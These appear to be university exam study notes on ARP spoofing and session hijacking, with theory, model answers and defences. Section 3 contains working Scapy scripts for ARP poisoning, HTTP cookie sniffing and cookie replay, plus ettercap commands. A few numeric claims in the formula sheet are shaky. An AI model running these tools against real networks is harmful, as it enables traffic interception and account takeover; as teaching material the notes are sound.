




# ARP Spoofing and Session Hijacking

<!-- SECTION_1_START -->
# ARP Spoofing and Session Hijacking — Core Foundations

> [!IMPORTANT]
> **KTU 2024 Scheme | PBCST604 | Module 3 — Network Security**
> These notes are mapped to **CO2** (Understand common network-layer attacks and apply defensive countermeasures) and **CO3** (Analyze Man-in-the-Middle and session-level threats in TCP/IP networks).

## 1.1 What is ARP (Address Resolution Protocol)?

**Definition:** ARP is a **layer-2/link-layer** protocol defined in **RFC 826** that maps a known 32-bit **IPv4 address** to a **48-bit MAC (hardware) address** within a local broadcast domain (LAN).

Every device on an Ethernet network is identified at two levels:
- **Logical address (Layer 3):** $IP\_address$ — e.g., `192.168.1.10`
- **Physical address (Layer 2):** $MAC\_address$ — e.g., `AA:BB:CC:DD:EE:FF`

ARP bridges these two address spaces so that frames can be physically delivered to the correct Network Interface Card (NIC).

> [!NOTE]
> **Core Idea:** Switches forward frames based on MAC addresses, but applications speak using IP addresses. ARP is the *translator* between them.

### Conceptual Analogy — The Office Building Postman
Imagine an office building where employees are known internally by **Employee ID** (IP address) and externally by **Desk Number** (MAC address). When HR wants to send a memo to Employee ID `E-104`:
1. HR shouts (broadcasts): *"Who sits at the desk belonging to Employee ID E-104?"*
2. The person at that desk replies: *"I do. My desk number is D-12."*
3. HR writes D-12 in its personal address book and uses it forever.

**ARP is exactly this exchange** — broadcast query, unicast reply, then cached locally in the **ARP Cache / ARP Table**.

### The Two ARP Message Types
| Type | Opcode | Direction | Purpose |
|------|--------|-----------|---------|
| **ARP Request** | `1` | Broadcast (`FF:FF:FF:FF:FF:FF`) | *"Who has IP X? Tell me your MAC."* |
| **ARP Reply** | `2` | Unicast | *"IP X is at MAC Y."* |

### ARP Cache / ARP Table — Visual Structure
> [!VISUALIZATION CONTROL]
> **Concept:** ARP Table inside a host's kernel memory
> **Layout Description:** A 3-column table where the rows represent cached bindings between IP and MAC.
> 
> | IP Address | MAC Address | Type | Age |
> |------------|-------------|------|-----|
> | 192.168.1.1 | AA:AA:AA:AA:AA:AA | Dynamic | 45s |
> | 192.168.1.2 | BB:BB:BB:BB:BB:BB | Dynamic | 12s |
> | 192.168.1.3 | CC:CC:CC:CC:CC:CC | Static | permanent |
> 
> **Observation:** "Dynamic" entries expire (typically **300 seconds** on Windows, **60 seconds** on Linux). This timer is the *weakness* ARP Spoofing exploits.

---

## 1.2 What is ARP Spoofing (ARP Poisoning)?

**Definition:** ARP Spoofing (also called **ARP Poisoning**, **ARP Cache Poisoning**, or **ARP Poison Routing**) is a **Layer-2 Man-in-the-Middle (MITM)** attack in which an attacker sends **forged ARP Reply** packets onto a LAN to associate the attacker's MAC address with the IP address of a legitimate host (usually the **default gateway**).

The result: traffic intended for the victim flows through the attacker's machine.

> [!IMPORTANT]
> **Why does this work?** ARP is a **stateless, trust-based, unauthenticated** protocol. It accepts replies without verifying the sender's identity, and many OSes accept ARP Replies even when no Request was sent (**Gratuitous ARP** acceptance).

### Conceptual Analogy — The Phone Number Swap
Picture a corporate switchboard. The boss's extension is `100`, and the receptionist's extension is `200`. The boss gives the receptionist a sticky note: *"From now on, if anyone asks for extension 100, route the call to extension 200."* Every caller trying to reach the boss now reaches the receptionist instead, who can listen, modify, or redirect the call.

**ARP Spoofing is this sticky-note swap, performed at line speed using fake broadcast messages.**

### Real-World Impact
- **Packet sniffing** of plaintext HTTP, FTP, Telnet traffic
- **Session hijacking** by stealing cookies/tokens
- **Denial of Service** by black-holing traffic
- **DNS spoofing** in conjunction
- Credential theft in coffee-shop / public Wi-Fi

---

## 1.3 What is Session Hijacking?

**Definition:** Session Hijacking (also called **Cookie Hijacking**, **TCP Session Hijacking**, or **Sidejacking**) is the exploitation of a valid, established computer session — typically by **stealing or predicting a session token (session ID / cookie / TCP sequence number)** — to gain **unauthorized access** to a web application, service, or remote shell as the authenticated user.

> [!NOTE]
> **Key distinction:** ARP Spoofing is the *delivery vehicle* that often *enables* Session Hijacking on switched LANs. Together they form a classic **MITM chain**:
> ARP Spoof → MITM Position → Sniff Session Token → Replay Token = Session Hijack.

### Conceptual Analogy — The Wristband at a Concert
At a music festival, you enter with a **paper wristband** stamped with a unique serial number. As long as you wear it, staff treats you as an authorized guest. A thief photographs your wristband (session token), later forges a copy, and walks into VIP areas as *you*. The system never re-checks your original identity — it trusts the wristband.

**A web session cookie or TCP sequence number is that wristband.** Whoever holds it *is* the user, as far as the server is concerned.

### The Two Major Classes

| Class | Layer | Mechanism | Token Stolen |
|-------|-------|-----------|--------------|
| **Network-Level Hijack** | Transport (TCP) | Predict / sniff TCP Sequence Numbers | SYN-ACK handshake data |
| **Application-Level Hijack** | Application (HTTP) | Sniff / XSS-steal session cookies | `PHPSESSID`, `JSESSIONID`, `Set-Cookie` value |

### High-Level Attack Lifecycle (used in both)
1. **Sniff** — Capture traffic between client and server.
2. **Monitor** — Track the established session's sequence numbers or cookies.
3. **Desynchronize** — Push the genuine client out of the session (DoS the client or flood it).
4. **Inject** — Inject attacker packets with predicted/stolen tokens.
5. **Takeover** — Continue the session as the legitimate user.

> [!TIP]
> KTU examiners frequently test the **"why is TCP vulnerable?"** angle. The answer: TCP has **no intrinsic authentication of session endpoints after the SYN-SYN-ACK-ACK handshake completes.**

---

## 1.4 Physical / Link-Layer Constants to Remember

> [!IMPORTANT]
> Standard values for the KTU board paper:
> - **IPv4 address size:** $32$ **bits**
> - **MAC address size:** $48$ **bits**
> - **Ethernet broadcast MAC:** $FF:FF:FF:FF:FF:FF$
> - **Default ARP cache timeout (Windows):** $300$ **seconds**
> - **Default ARP cache timeout (Linux):** $60$ **seconds**
> - **ARP operation code for Reply:** $2$
> - **Default TCP port for HTTP (cleartext):** $80$
> - **Default TCP port for HTTPS (encrypted):** $443$
<!-- SECTION_1_END -->

<!-- SECTION_2_START -->
# Deep Theoretical Analysis & KTU High-Yield Formula Sheet

## 2.1 ARP Protocol — Deep Operational Mechanics

The ARP packet is encapsulated **directly inside an Ethernet frame** (no IP header for the ARP message itself). Its structure (as per RFC 826) is:

| Field | Size (bytes) | Meaning |
|-------|--------------|---------|
| Hardware Type | 2 | `0x0001` for Ethernet |
| Protocol Type | 2 | `0x0800` for IPv4 |
| Hardware Addr Len | 1 | `6` for MAC |
| Protocol Addr Len | 1 | `4` for IPv4 |
| Opcode | 2 | `1` = Request, `2` = Reply |
| Sender HW Addr | 6 | Sender MAC |
| Sender Proto Addr | 4 | Sender IP |
| Target HW Addr | 6 | Target MAC (zero in Request) |
| Target Proto Addr | 4 | Target IP |

### Step-by-Step Legitimate ARP Exchange
1. Host A wants to send an IP packet to Host B. A checks its ARP table.
2. **Cache miss** → A broadcasts an ARP Request: *"Who has 192.168.1.5? Tell 192.168.1.2."*
3. Every host on the LAN receives the frame; only B recognizes its IP.
4. B sends a **unicast ARP Reply** to A: *"192.168.1.5 is at MAC-BB."*
5. A caches `(192.168.1.5 → MAC-BB)` in its ARP table and proceeds.

---

## 2.2 ARP Spoofing — Attack Theory in Detail

### 2.2.1 The Core Vulnerability
- ARP has **no authentication** of the sender.
- Operating systems **accept ARP Replies they didn't ask for** (passive cache update).
- Many NICs/OSes even process **Gratuitous ARPs** (a host announcing its own IP-MAC binding unsolicited).

### 2.2.2 Attack Flow (Logical Steps)
1. **Reconnaissance:** Attacker runs a sniffer (e.g., Wireshark, `arpspoof`, `ettercap`) to learn the IP of the **default gateway** and the **victim's IP/MAC**.
2. **Crafting Forged Reply:** Attacker constructs an Ethernet frame with:
   - Source MAC = `MAC_attacker`
   - Source IP = `IP_gateway` (forged)
   - Destination MAC = `MAC_victim`
   - Opcode = `2` (Reply)
3. **Transmission:** Attacker sends the forged ARP Reply to the victim (and a symmetric one to the gateway — a *double poisoning*).
4. **Cache Corruption:** Victim's ARP table is overwritten: `IP_gateway → MAC_attacker`.
5. **MITM Position:** From now on, when victim sends to gateway, frame goes to attacker first.
6. **Forwarding & Eavesdropping:** Attacker enables **IP forwarding** so packets still reach the gateway (passive sniffing). For active manipulation, attacker modifies payloads.

### 2.2.3 The "Why" Behind Each Step
- **Why broadcast?** A forged unicast to victim still works because OSes update cache on receipt of any valid-format reply.
- **Why poison the gateway too?** Otherwise the gateway would still send replies to the victim's real MAC, breaking the attacker's MITM symmetry.
- **Why enable IP forwarding?** To avoid raising suspicion — the victim must still reach the Internet, otherwise the user notices immediately.

### 2.2.4 Defensive Countermeasures
- **Static ARP entries** for critical hosts (gateways, servers).
- **Dynamic ARP Inspection (DAI)** on managed switches — verifies ARP packets against a trusted DHCP snooping binding table.
- **ARP spoofing detection tools:** `arpwatch`, `XArp`, `Snort` rules.
- **Encryption at Layer 2+:** Port security, 802.1X authentication.
- **Network segmentation** and avoiding public/open Wi-Fi for sensitive work.

---

## 2.3 Session Hijacking — Deep Theory

### 2.3.1 TCP Three-Way Handshake Recap
A TCP session begins with:

$$
\text{Client} \xrightarrow{SYN, seq=x} \text{Server}
$$

$$
\text{Server} \xrightarrow{SYN, seq=y, ACK, ack=x+1} \text{Client}
$$

$$
\text{Client} \xrightarrow{ACK, seq=x+1, ack=y+1} \text{Server}
$$

After this, the **state machine** enters `ESTABLISHED`. From here, every byte sent by one side carries an incrementing **32-bit sequence number** $ISN + offset$.

### 2.3.2 TCP Session Hijacking (Network-Level)
- Attacker **sniffs** the $seq$ and $ack$ numbers in flight.
- Attacker **predicts** the next expected sequence number using:
  $$seq_{next} = seq_{current} + data\_length_{observed}$$
- Attacker **desynchronizes** the victim (e.g., via RST flood or ARP poisoning DoS).
- Attacker **injects** a packet with the predicted $seq$ carrying attacker commands.
- Server accepts the packet because $seq$ matches its expected window.

> [!IMPORTANT]
> Modern OSes randomize the **Initial Sequence Number (ISN)** using cryptographically strong PRNGs. Older RFC 793 implementations used a simple $ISN = \text{time} \times 250{,}000 + 1$ — easily guessable. KTU often asks about this evolution.

### 2.3.3 Application-Level Session Hijacking
HTTP is **stateless**. To maintain login state, servers issue a **session token** as a cookie:
- `Set-Cookie: PHPSESSID=a3f9c2e1b8d4...`
- Subsequent requests: `Cookie: PHPSESSID=a3f9c2e1b8d4...`
If an attacker obtains this token (via **XSS, sniffing unencrypted HTTP, malware, or session fixation**), they can simply **replay** it from their browser using a Cookie Editor extension.

### 2.3.4 Types of Session Hijacking (Board-Relevant Classification)

| Type | Description | Example |
|------|-------------|---------|
| **Active Hijacking** | Attacker takes over and interacts with the session in real time | Live Telnet/SSH cookie theft on LAN |
| **Passive Hijacking** | Attacker only records session data (sniffing) for offline analysis | Capturing HTTP cookies on open Wi-Fi |
| **Session Fixation** | Attacker plants a known session ID into victim's browser before login | Setting `PHPSESSID` via URL parameter |
| **Session Sidejacking** | Sniffing tokens over unencrypted networks | Firesheep (2010) on public Wi-Fi |
| **Man-in-the-Browser** | Malware inside the browser modifies transactions transparently | ZeuS, SpyEye trojans |

### 2.3.5 Defensive Countermeasures
- **HTTPS/TLS** for all session traffic (encrypts cookies in transit).
- **`HttpOnly` & `Secure` cookie flags** — prevent JavaScript access and require HTTPS.
- **Session ID regeneration** upon login (mitigates session fixation).
- **Token expiration & sliding timeouts.**
- **IP/User-Agent binding** (defense-in-depth, not bulletproof).

---

## 2.4 KTU High-Yield Formula / Cheat Sheet

> [!NOTE]
> **Board-Exam Gold**: The following table consolidates every numerical relationship, constant, and rule you need for PBCST604 Module 3 questions on this topic.

| Concept | Formula / Rule | Numeric Value | Unit / Notes |
|---------|----------------|---------------|--------------|
| IPv4 address length | $L_{ip}$ | $32$ | bits |
| MAC address length | $L_{mac}$ | $48$ | bits |
| ARP Request opcode | $Op_{req}$ | $1$ | decimal |
| ARP Reply opcode | $Op_{rep}$ | $2$ | decimal |
| Ethernet broadcast | $MAC_{bc}$ | $FF:FF:FF:FF:FF:FF$ | 48 ones |
| ARP cache timeout (Windows) | $T_{w}$ | $300$ | seconds |
| ARP cache timeout (Linux) | $T_{l}$ | $60$ | seconds |
| TCP header sequence number field | $S_{tcp}$ | $32$ | bits |
| TCP window size (legacy RFC 793) | $W_{tcp}$ | $16$ | bits |
| Default HTTP port | $P_{http}$ | $80$ | TCP |
| Default HTTPS port | $P_{https}$ | $443$ | TCP |
| Sequence prediction (TCP hijack) | $seq_{next} = seq_{curr} + \Delta data$ | — | linear unless ISN is random |
| Old RFC 793 ISN formula | $ISN = 250000 \cdot t + 1$ | — | $t$ = time in seconds |
| Bits per ARP packet (basic) | $B_{arp} = 28$ | — | bytes (excludes Ethernet header) |
| Throughput loss for sniffing only | $0$ | — | passive — victim is unaware |
| Mitigation: 802.1X | Port-based NAC | — | Layer 2 authentication |

---

## 2.5 Real-World Engineering & Industry Relevance

| Domain | Why this matters |
|--------|------------------|
| **Enterprise LAN Security** | ARP poisoning is the #1 MITM vector inside corporate networks. DAI on Cisco switches is now baseline. |
| **Public Wi-Fi / Coffee Shops** | Session sidejacking (Firesheep) is still relevant where HTTPS is incomplete (HSTS not enforced). |
| **IoT & OT Networks** | ARP spoofing can redirect industrial control traffic, causing physical damage (e.g., Stuxnet used ARP manipulation tactics). |
| **Cloud Data Centers** | VXLAN/EVPN replaces traditional ARP with secure variants; understanding classic ARP is prerequisite. |
| **Penetration Testing** | Certifications like CEH, OSCP, and eCPPT begin their MITM modules with ARP spoofing demonstrations. |
| **DevSecOps** | Hard-coded session tokens in mobile apps are routinely hijacked; secure session design is a primary appsec concern. |
| **Mobile Networks (4G/5G)** | Similar concepts exist at GTP layer — fraud detection in telecom re-uses these ideas. |
<!-- SECTION_2_END -->

<!-- SECTION_3_START -->
# Step-by-Step Derivations, Proofs & Code Implementation

## 3.1 Derivation — Why ARP Spoofing Succeeds (Information-Theoretic View)

Let:
- $H_{real}$ = legitimate host with true binding $IP_g \leftrightarrow MAC_g$
- $H_{atk}$ = attacker host with $MAC_{atk}$
- $H_{vic}$ = victim host

The ARP cache of $H_{vic}$ at time $t$ stores the binding:

$$
B_{vic}(t) \;=\; \left\{ \, IP_{dest} \;\mapsto\; MAC_{dest} \,\right\}
$$

After a forged gratuitous ARP reply arrives, the cache becomes:

$$
B'_{vic}(t+\Delta t) \;=\; \left\{ \, IP_{g} \;\mapsto\; MAC_{atk} \,\right\}
$$

For the attack to succeed, the attacker must satisfy **two conditions**:

$$
\textbf{Condition 1 (Reachability):} \quad MAC_{atk} \in \text{LAN}(H_{vic})
$$

$$
\textbf{Condition 2 (Trust):} \quad H_{vic} \text{ accepts unsolicited ARP replies}
$$

Both conditions are **always true** in a default-configured Ethernet LAN, which is why the attack has $100\%$ reliability in unhardened networks.

$$
\boxed{\; P_{attack\_success} \;\approx\; 1.0 \quad \text{on default L2 Ethernet} \;}
$$

---

## 3.2 Derivation — TCP Sequence Number Prediction (Legacy Model)

In RFC 793-compliant stacks, if the attacker can observe even **one** TCP segment from client to server, the next $ISN$ can be predicted:

$$
ISN_{n+1} \;=\; ISN_n \;+\; \Delta_{data} \;+\; \Delta_{window}
$$

In the historical Berkeley-derived model:

$$
ISN \;=\; 250000 \cdot t \;+\; C
$$

where $C$ is a small constant added at boot and $t$ is wall-clock seconds.

> [!NOTE]
> **Why this fails today:** Modern kernels use a CSPRNG seeded from hardware entropy (e.g., Linux `secure_seq()`, OpenBSD `arc4random`). This adds an entropy of $32$ **bits**, so brute-force prediction requires $2^{32}$ attempts on average — computationally infeasible in real time. KTU questions often test the contrast between *legacy* and *modern* ISN generation.

---

## 3.3 Step-by-Step Execution — ARP Spoofing with Python (Scapy)

> [!IMPORTANT]
> This is a **defensive / academic** demonstration meant for KTU lab viva understanding. **Never run on networks you do not own.** Use the college cyber-security lab VLAN.

### 3.3.1 Lab Topology

| Role | IP | MAC (example) | OS |
|------|----|--------------|----|
| Attacker (Kali) | 192.168.1.100 | 11:22:33:44:55:66 | Linux |
| Victim | 192.168.1.50 | AA:AA:AA:AA:AA:AA | Windows/Linux |
| Gateway | 192.168.1.1 | BB:BB:BB:BB:BB:BB | Router |

### 3.3.2 Code — Single-Target ARP Spoof

```python
"""
arp_spoof_lab.py
=================
Educational ARP Spoofing demonstration (PBCST604 Module 3).
WARNING: For authorized lab use only. Misuse is illegal under IT Act 2000 §66.
"""

from scapy.all import ARP, Ether, sendp, get_if_hwaddr, conf
from scapy.layers.l2 import getmacbyip
import time
import logging
import sys

logging.basicConfig(
    level=logging.INFO,
    format="[%(asctime)s] %(levelname)s: %(message)s",
)
log = logging.getLogger("arp_spoof_lab")


def build_arp_reply(
    src_ip: str,
    src_mac: str,
    dst_ip: str,
    dst_mac: str,
) -> Ether:
    """
    Build a forged ARP Reply frame.
    The frame claims: 'src_ip is at src_mac' — directed at dst_mac.
    """
    eth_layer = Ether(dst=dst_mac, src=src_mac)
    arp_layer = ARP(
        op=2,                        # 2 = is-at (Reply)
        psrc=src_ip,                 # FORGED — this is the lie
        hwsrc=src_mac,               # Attacker's real MAC
        pdst=dst_ip,                 # Victim IP
        hwdst=dst_mac,               # Victim MAC
    )
    return eth_layer / arp_layer


def send_spoof_packet(
    victim_ip: str,
    gateway_ip: str,
    attacker_iface: str,
    interval: float = 2.0,
) -> None:
    """
    Continuously poison the victim's ARP cache so that
    the gateway IP maps to the attacker's MAC.
    """
    try:
        attacker_mac: str = get_if_hwaddr(attacker_iface)
        victim_mac: str = getmacbyip(victim_ip)
    except Exception as e:
        log.error("Failed to resolve MACs: %s", e)
        sys.exit(1)

    log.info("Attacker MAC: %s", attacker_mac)
    log.info("Victim  MAC: %s", victim_mac)
    log.info("Starting ARP poison on victim %s", victim_ip)

    spoof_frame = build_arp_reply(
        src_ip=gateway_ip,
        src_mac=attacker_mac,
        dst_ip=victim_ip,
        dst_mac=victim_mac,
    )

    pkt_count: int = 0
    try:
        while True:
            sendp(spoof_frame, iface=attacker_iface, verbose=False)
            pkt_count += 1
            log.info("Sent forged ARP reply #%d", pkt_count)
            time.sleep(interval)
    except KeyboardInterrupt:
        log.warning("Interrupted by user — restoring network.")
    except OSError as os_err:
        log.error("Socket error: %s", os_err)


if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Usage: python3 arp_spoof_lab.py <victim_ip> <gateway_ip> <iface>")
        print("Example: python3 arp_spoof_lab.py 192.168.1.50 192.168.1.1 eth0")
        sys.exit(1)

    send_spoof_packet(
        victim_ip=sys.argv[1],
        gateway_ip=sys.argv[2],
        attacker_iface=sys.argv[3],
    )
```

### 3.3.3 Code — ARP Spoof Detector (Defensive Counterpart)

```python
"""
arp_detector.py
===============
Detects anomalous ARP activity by watching for IP->MAC changes.
"""

from scapy.all import sniff, ARP
from collections import defaultdict
import time

known_bindings: dict[str, str] = defaultdict(str)
ALERT_WINDOW_SEC: float = 5.0


def process_packet(pkt) -> None:
    if not pkt.haslayer(ARP):
        return
    if pkt[ARP].op != 2:  # only replies
        return

    src_ip: str = pkt[ARP].psrc
    src_mac: str = pkt[ARP].hwsrc

    if known_bindings[src_ip] and known_bindings[src_ip] != src_mac:
        print(
            f"[!] ALERT at {time.strftime('%H:%M:%S')} — "
            f"IP {src_ip} changed MAC "
            f"{known_bindings[src_ip]} -> {src_mac}"
        )
    known_bindings[src_ip] = src_mac


def main() -> None:
    print("[*] Starting ARP spoof detector... Press Ctrl+C to stop.")
    sniff(filter="arp", prn=process_packet, store=0)


if __name__ == "__main__":
    main()
```

---

## 3.4 Step-by-Step — Session Hijacking with Cookie Sniffing (Scapy)

### 3.4.1 Code — Sniff HTTP Cookies

```python
"""
session_sniff.py
================
Captures HTTP Set-Cookie / Cookie headers from a switched LAN.
Requires ARP poisoning upstream OR a hub-based network.
"""

from scapy.all import sniff, TCP, Raw, IP
import re
import sys
import logging

logging.basicConfig(level=logging.INFO, format="%(asctime)s | %(message)s")
log = logging.getLogger("sessniff")

COOKIE_REGEX = re.compile(rb"(?:Set-Cookie|Cookie):\s*([^\r\n;]+)", re.IGNORECASE)


def extract_cookies(payload: bytes) -> list[str]:
    return [m.group(1).decode("utf-8", errors="replace") for m in COOKIE_REGEX.finditer(payload)]


def handle_packet(pkt) -> None:
    if not pkt.haslayer(TCP) or not pkt.haslayer(Raw):
        return
    if pkt[TCP].dport != 80 and pkt[TCP].sport != 80:
        return
    try:
        cookies = extract_cookies(bytes(pkt[Raw].load))
    except (UnicodeDecodeError, ValueError) as err:
        log.error("Decode failure: %s", err)
        return
    for cookie in cookies:
        src = pkt[IP].src if pkt.haslayer(IP) else "?"
        log.info("Captured cookie from %s => %s", src, cookie)


def main() -> None:
    log.info("Sniffing HTTP cookies on port 80. Ctrl+C to stop.")
    sniff(filter="tcp port 80", prn=handle_packet, store=0)


if __name__ == "__main__":
    main()
```

### 3.4.2 Code — Cookie Replay with `requests`

```python
"""
cookie_replay.py
================
Reuses a captured session cookie to access the victim's account.
"""

import requests
import sys
import logging

logging.basicConfig(level=logging.INFO, format="%(message)s")
log = logging.getLogger("replay")

TARGET_URL: str = "https://victim-app.example.com/dashboard"


def replay_session(cookie: str) -> None:
    headers = {
        "User-Agent": "Mozilla/5.0 (Lab-Replay)",
        "Cookie": cookie,
    }
    try:
        resp = requests.get(TARGET_URL, headers=headers, timeout=10)
    except requests.RequestException as err:
        log.error("Network error: %s", err)
        return
    log.info("HTTP %d | len=%d", resp.status_code, len(resp.text))
    if "logout" in resp.text.lower():
        log.info("Session appears ACTIVE — hijack successful.")
    else:
        log.info("Session may have expired.")


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 cookie_replay.py 'PHPSESSID=abcdef123'")
        sys.exit(1)
    replay_session(sys.argv[1])
```

---

## 3.5 Walk-Through — Full MITM Chain (Board Walk-Through)

The following is the **complete trace a board examiner expects** when asked *"Describe how an attacker performs Session Hijacking via ARP Spoofing."*

**Step 1 — Reconnaissance**
Attacker runs `netdiscover` or `nmap -sn 192.168.1.0/24` to map the LAN.

**Step 2 — Enable IP Forwarding**

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

This ensures the victim still reaches the Internet (passive sniffing mode).

**Step 3 — Start Sniffing**

```bash
wireshark -i eth0 -k -Y "http.cookie"
```

**Step 4 — Launch ARP Poisoning (Bidirectional)**

```bash
ettercap -T -q -M arp:remote /192.168.1.50// /192.168.1.1//
```

This double-poisons both victim and gateway.

**Step 5 — Harvest Cookies**
The sniffer in §3.4.1 captures `Set-Cookie: SESSIONID=xyz789`.

**Step 6 — Replay Cookie**
The script in §3.4.2 logs into the victim's account without credentials.

**Step 7 — Restore Network (Ethical Cleanup)**

```bash
ettercap -T -q -M arp:remote -R /192.168.1.50// /192.168.1.1//
```

---

## 3.6 Quantitative Worked Example (Board Numerical Question)

**Q:** *A Linux host has an ARP cache timeout of 60 seconds. An attacker injects a forged ARP Reply at $t = 0$ s. If the attacker stops sending at $t = 45$ s, when will the victim stop being poisoned (assuming no further legitimate traffic refreshes the entry)?*

**Solution:**

For a forged entry to remain in cache, the OS must see activity *or* the timer must not expire. Linux refreshes the timer on **every packet** that uses the binding.

Without further attack packets:
$$
t_{poison\_ends} = t_{last\_forged\_packet} + T_{linux}
$$
$$
t_{poison\_ends} = 45 + 60 = 105 \; \text{seconds}
$$

**Answer:** **The victim remains poisoned until $t = 105$ s after attack start.**

> [!TIP]
> **[Valuation Key: 2 Marks]** for the formula setup, **[2 Marks]** for substitution, **[1 Mark]** for the final answer with units.
<!-- SECTION_3_END -->

<!-- SECTION_4_START -->
# Structural Diagrams & Schematics

## 4.1 Mermaid — ARP Spoofing Attack Flow



> [!NOTE]
> All node IDs are alphanumeric (e.g., `nodeA`, `stepB`) per Mermaid safety rules. Labels use clean uppercase text without markdown formatting.

---

## 4.2 Mermaid — TCP Session Hijack State Machine



---

## 4.3 Mermaid — Session Hijack Classification Tree



---

## 4.4 Mermaid — Defensive Countermeasure Architecture



---

## 4.5 Mermaid — Full MITM Attack Topology

```mermaid
flowchart LR
    Victim((Victim PC<br/>192.168.1.50))
    Attacker((Attacker<br/>192.168.1.100))
    Gateway((Default Gateway<br/>192.168.1.1))
    Server((Web Server<br/>203.0.113.10))

    Victim <-- Original ARP -- Attacker
    Attacker -- Forged ARP Reply 1 --> Victim
    Attacker -- Forged ARP Reply 2 --> Gateway
    Victim -- HTTP request to bank.com --> Attacker
    Attacker -- Forwarded request --> Server
    Server -- HTTP response --> Attacker
    Attacker -- Forwarded response --> Victim
    Attacker -. Sniff and log cookies .-> Attacker
```

> [!NOTE]
> **Why a flowchart instead of a physical diagram?** Switched LANs are logical constructs; a *functional architecture flow* maps the L2/L3 interactions more clearly than a wiring diagram would, and is also Mermaid-safe (no special characters, no reserved-keyword node names).
<!-- SECTION_4_END -->

<!-- SECTION_5_START -->
# KTU 2024 Scheme Examination Question Bank & Topic Recap

## 5.1 Part A — Short Answer Questions (3 Marks Each)

### Question A1
**[KTU University Exam — July 2024 | CO2 | Remember]**
*"What is ARP Spoofing? List any two countermeasures."*

**Model Answer (3 Marks):**
ARP Spoofing is a Layer-2 attack in which an attacker sends forged ARP Reply messages onto a local network to associate the attacker's MAC address with the IP address of a legitimate host, usually the default gateway, thereby positioning the attacker as a Man-in-the-Middle. **[2 Marks]**
Countermeasures: **[1 Mark]**
1. **Dynamic ARP Inspection (DAI)** on managed switches to validate ARP packets against a trusted binding table.
2. **Static ARP entries** for critical hosts like the gateway.

---

### Question A2
**[KTU University Exam — Dec 2023 | CO2 | Understand]**
*"Differentiate between Active and Passive Session Hijacking."*

**Model Answer (3 Marks):**

| Aspect | Active Hijacking | Passive Hijacking |
|--------|------------------|-------------------|
| Goal | Take over and continue the session in real time | Only record traffic for later analysis |
| Visibility to victim | High — victim may be kicked offline | Low — victim is unaware |
| Technique | Sequence prediction, desynchronization | Pure sniffing on a hub or via ARP poisoning |
| Example | Hijacking a live Telnet session | Capturing HTTP cookies on a coffee-shop Wi-Fi |

**[3 Marks — 1.5 each for distinction points]**

---

## 5.2 Part B — Long Answer Questions (14 Marks, Internal Choice)

### Question B1 — Choice A
**[KTU University Exam — July 2024 | CO2 \& CO3 | Apply / Analyze | 14 Marks]**

**(a)** *With a neat diagram, explain the working of ARP Spoofing attack. How does the attacker become a Man-in-the-Middle?* **[7 Marks]**

**Model Solution (7 Marks):**
- Definition of ARP Spoofing as a forged ARP Reply attack. **[1 Mark]**
- Block diagram showing victim, attacker, and gateway with poisoned ARP tables. **[2 Marks]**
- Step-by-step: reconnaissance → forging → poisoning victim → poisoning gateway → MITM. **[2 Marks]**
- Justification of why it works (statelessness, no authentication, gratuitous ARP acceptance). **[1 Mark]**
- Enable IP forwarding to maintain victim connectivity. **[1 Mark]**

> [!WARNING]
> **Common Mistake:** Students often forget to mention **IP forwarding**. Without it, the victim loses connectivity and notices the attack immediately. Examiners allocate 1 mark for this point.

---

